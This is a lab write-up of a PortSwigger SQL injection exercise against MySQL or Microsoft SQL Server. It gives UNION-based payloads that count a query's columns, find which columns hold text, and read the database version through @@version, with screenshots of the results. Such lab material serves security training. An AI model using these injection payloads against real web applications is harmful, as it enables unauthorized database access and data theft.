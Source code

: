 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/87c37d0d-a9be-450a-91be-316964a825fc)

## Solution :

***Since it is either microsoft or MYQL database use # as comment***

Query made -- 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL#
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cef3ba8e-ec10-4ec7-a5f7-9f9433399c4a)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan',NULL #
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/72b313f5-d507-447a-a4e0-1c57f3a7682a)

####  Database version 

To find version of both MYSQL & Microsoft database are the same - `@@version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT @@version,NULL #
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ec9f4b71-d3a8-4823-89e4-941a8ae81fa7)

